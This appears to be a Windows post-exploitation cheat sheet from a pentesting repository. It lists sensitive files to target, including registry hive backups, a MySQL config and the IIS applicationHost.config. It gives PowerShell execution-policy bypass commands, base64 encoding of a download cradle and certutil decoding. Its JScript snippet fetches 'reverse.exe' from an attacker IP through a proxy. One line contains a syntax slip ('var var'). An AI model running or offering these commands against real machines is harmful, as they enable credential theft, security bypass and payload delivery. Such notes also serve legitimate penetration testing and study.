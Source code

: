 ```console
C:/Windows/system32/config/regback/system 
C:/Windows/system32/config/regback/software
C:/Program Files/MySQL/MySQL Server 5.1/my.ini 
C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml 
C:/Windows/System32/inetsrv/config/applicationHost.config 
C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log
```

### Enable execution of PowerShell Scripts

```console
Set-ExecutionPolicy RemoteSigned
Set-ExecutionPolicy Unrestricted
powershell.exe -exec bypass
```

### Encode Powershell b64 from Linux

```console
echo 'ImAnEviCradleBuuhhhh' | iconv -t UTF-16LE | base64 -w0
```

### Encode/Decode b64 in Windows WITHOUT Powershell

```console
certutil -encode <inputfile> <outputfile>
certutil -decode <b64inputfile> <plainoutputdecodedfile>
  ^-- If the file exists I can use the -f flag which will force an overwrite
```

### Check the Type of Language available with Powershell

```console
$ExecutionContext.SessionState.LanguageMode

Possible types are:
  - Full Language
  - RestrictedLanguage
  - No Language
  - Constrained Language
```

### Set Proxy in code used (Windows)

#### Powershell

```console
[System.Net.WebRequest]::DefaultWebProxy.GetProxy(url)
```

#### JScript

```console
var url = "http://192.168.42.43/reverse.exe";
var var Object = new ActiveXObject("MSXML2.ServerXMLHTTP.6.0");
Object.setProxy("2","192.168.42.42:3128");
Object.open('GET', url, false);
Object.send();
  ^-- This was tricky because lack of debug information. The parameter in "2" means "SXH_PROXY_SET_PROXY", and it allows to specify a list of one or more servers together with a bypass list. The .open() must be in lowercase otherwise .Open() is another method
```
